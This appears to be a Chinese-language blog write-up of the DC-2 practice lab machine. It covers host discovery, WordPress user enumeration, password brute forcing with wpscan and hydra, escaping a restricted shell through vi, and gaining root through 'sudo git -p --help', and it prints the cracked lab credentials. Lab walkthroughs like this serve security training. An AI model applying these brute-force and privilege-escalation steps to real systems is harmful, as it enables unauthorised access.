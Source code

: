 ```yaml
---
title: DC-2
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-12 14:54:22
tags: 渗透
keywords:
description:
photos: \img\article\18.png

---
```




# 信息搜集

## 主机发现

使用nmap扫描该网段，发现dc-2的ip为192.168.182.140

但是访问提示dns解析错误

![image-20210212150001365](DC-2/image-20210212150001365.png)

修改hosts文件

```
192.168.182.140 dc-2
```

然后出现网站



![image-20210212150058443](DC-2/image-20210212150058443.png)

发现flag1

![image-20210212150115082](DC-2/image-20210212150115082.png)

## 目录爆破

提示使用cewl字典生成，但是并没有发现登录框，使用扫描器经行扫描

![image-20210212151250932](DC-2/image-20210212151250932.png)

发现登录界面wp-login.php

![image-20210212151501185](DC-2/image-20210212151501185.png)

## 暴力破解

### 使用cewl扫描密码

使用方法:https://www.freebuf.com/articles/network/190128.html

### 使用wpscan扫描用户名

使用方法: https://www.freebuf.com/sectool/174663.html

wpscan --url 192.168.182.140

将密码保存在user.txt文件中

然后使用

wpscan --url http://dc-2 -U user.txt -P pass2.txt 

暴力破解，成功破解出密码

```
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

使用jerry成功找到flag2

![image-20210212163017485](DC-2/image-20210212163017485.png)

提示失败,然后我们还有另外一个7744端口是开启的

## ssh破解登录

SSH 指定密钥，连接远程服务器。

------

ssh -i /root/.ssh/ido_sch_pro ido@192.168.1.111 -p 7744

如上，
 /root/.ssh/ido_sch_pro  ：密钥文件路径
 ido@192.168.1.111 ：需要连接的服务器用户名 & IP
 -p 7744  ： 端口7744

使用**hydra工具**使用已生成的密码字典对已知的用户名进行ssh登录密码爆破，获得ssh登录用户：**tom / parturient**

```bash
hydra -L user.txt -P pass.txt 192.168.182.140 ssh -s 7744  

login: tom   password: parturient
```

ssh tom@192.168.182.140 -p 7744

成功登录



ls发现有个flag3.txt文件,尝试查看发现

![image-20210212164215605](DC-2/image-20210212164215605.png)

但是发现vi可以使用

使用vi命令查看flag3.txt

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

提示切换用户

# 提权

## **Restricted shell绕过**

http://www.const27.com/2020/07/03/rbash%E7%BB%95%E8%BF%87/

https://xz.aliyun.com/t/7642

https://www.freebuf.com/articles/system/188989.html

https://mp.weixin.qq.com/s/3ae2NLq5pxURy6aMFon-hA

尝试发现vi可以使用

![image-20210212171153495](DC-2/image-20210212171153495.png)

执行命令

```
vi 1
:set shell=/bin/sh
:shell

#添加环境变量
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin （设置环境变量）
```

![image-20210212193921510](DC-2/image-20210212193921510.png)

使用vi提权获得可以正常执行命令

使用之前jerry爆出来的密码切换为jerry用户

![image-20210212195504958](DC-2/image-20210212195504958.png)

查看flag4

Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

还差最后一个

## git提权

```
sudo -l #查看都可以使用root权限无密码的命令,发现git命令

sudo git -p –-help  #提权
```

![image-20210213151736032](DC-2/image-20210213151736032.png)

![image-20210213151954902](DC-2/image-20210213151954902.png)

成功找到五个flag